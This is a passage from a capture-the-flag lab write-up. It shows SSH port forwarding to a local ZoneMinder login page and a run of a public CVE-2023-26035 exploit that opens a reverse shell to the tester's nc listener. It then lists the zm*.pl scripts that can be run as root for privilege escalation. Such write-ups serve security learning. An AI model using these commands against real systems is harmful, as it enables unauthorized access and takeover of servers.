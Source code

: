 Since we know that there is an open port 8080 on the localhost, we will have to forward the port to our local machine

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -L 8080:127.0.0.1:8080 matthew@10.10.11.245
matthew@10.10.11.245's password: 
```

Browsing to http://127.0.0.1:8080, we realize that this is a ZoneMinder login page, but the default credentials (admin/admin) cannot be used to authenticate to the page. Checking the exploits for zoneminder, we are able to find CVE-2023-26035. Using the exploit code from https://github.com/rvizx/CVE-2023-26035, we are able to spawn a reverse shell connection to our local listener

```
┌──(kali㉿kali)-[~/Desktop/surveillance/CVE-2023-26035]
└─$ python3 exploit.py -t http://127.0.0.1:8080 -ip 10.10.16.2 -p 3000
[>] fetching csrt token
[>] recieved the token: key:e6ac41ca172d4191315296f942f0ceea0d1c38e6,1703314037
[>] executing...
[>] sending payload..
-----------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.245] 50636
bash: cannot set terminal process group (1109): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www$ id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

# Privilege Escalation to root
Checking the permissions of zoneminder, we realize that we are able to execute all the binaries in /usr/bin with the following format ```zm[a-zA-Z]*.pl``` w ith root permissions. Filtering the binaries in /usr/bin, these are the binaries that can be executed with root permissions

```
zoneminder@surveillance:/usr/share/zoneminder/www$ ls -a /usr/bin | grep zm | grep .pl
ls -a /usr/bin | grep zm | grep .pl
zmaudit.pl
zmcamtool.pl
zmcontrol.pl
zmdc.pl
zmfilter.pl
zmonvif-probe.pl
zmonvif-trigger.pl
zmpkg.pl
zmrecover.pl
zmstats.pl
zmsystemctl.pl
zmtelemetry.pl
zmtrack.pl
zmtrigger.pl
zmupdate.pl
zmvideo.pl
zmwatch.pl
zmx10.pl
```
